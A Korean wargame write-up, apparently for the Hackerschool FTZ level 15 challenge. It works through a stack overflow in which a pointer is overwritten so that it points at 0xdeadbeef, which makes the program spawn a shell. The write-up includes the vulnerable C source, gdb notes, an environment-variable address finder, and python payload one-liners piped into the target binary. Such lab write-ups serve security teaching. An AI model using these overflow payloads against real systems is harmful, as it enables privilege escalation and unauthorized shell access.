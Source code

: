 스택구조를 파악하기 위해서 level14에서 썼던 distance.c 코드를 실행해도 되지만, 간단하게 다른 방법으로 해보겠다. 바로 헷갈리는 check, crap, sfp 사이의 더미를 정확히 파악하기 위해 crap에 값을 집어넣어 보는 것이다!  
```
#include <stdio.h>

main()
{
  int crap = 1;
  int *check;
  char buf[20];
  fgets(buf,45,stdin);
  if (*check==0xdeadbeef){
    setreuid(3096,3096);
    system("/bin/sh");
  }
}
```  
그 후 gdb를 돌리면
```
mov DWORD PTR [ebp-12], 0x1
```  
이런 어셈블리를 발견할 수 있는데, 즉 crap이 [ebp-12] 위치에 존재한다는 뜻이 된다. 1을 값으로 가지는건 선언한 변수 중에 crap 뿐이므로.  


3. 공격을 어떻게할지 생각해보자!  
버퍼에 0xdeadbeef를 넣고 check에 주소를 넣어줘도 되고,  
환경변수에 0xdeadbeef를 넣고 check에 주소를 넣어줘도 된다.  


Buf에 직접 0xdeadbeef를 올리는 방법의 경우에는 (python -c 'print "\xef\xbe\xad\xde"+"A"*36+"Buf의시작주소"';cat) | ./attackme 나  
"\x90"을 이용한것과 같이 다양하게 조합하여 공격을 할 수가 있으나,  
우리 환경에는 ASLR이라는 메모리 보호기법이 걸려있기 때문에 버퍼에 넣어서 하기는 매우 힘들다.  

이론은 모두 동일하다. check 부문에 값을 넣어줘야하므로, 40byte는 nop으로 채우고 그 후에 check에 넣을 값을 리틀엔디안으로 넣으면 된다.  
즉, dummy[40] + check[4]  

* 환경변수를 이용하기  
환경변수에 0xdeadbeef 값을 넣어주는 것이다.  
```
export SHELL=$(python -c 'print "\xef\xbe\xad\xde"')
```  
그리고 이 환경변수의 주소를 알아내서 check에 넣어주면 된다!  
```
// getshell.c

#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[1]){
	char *env;
	printf("address = %p\n",getenv("SHELL"));
	return 0;
}
```  
```
gcc -o getshell getshell.c
./getshell
```  
```
(pythonc -c 'print "A"*40 + "(리틀엔디안으로 shell 주소 넣기)"'; cat) | ./attackme
```
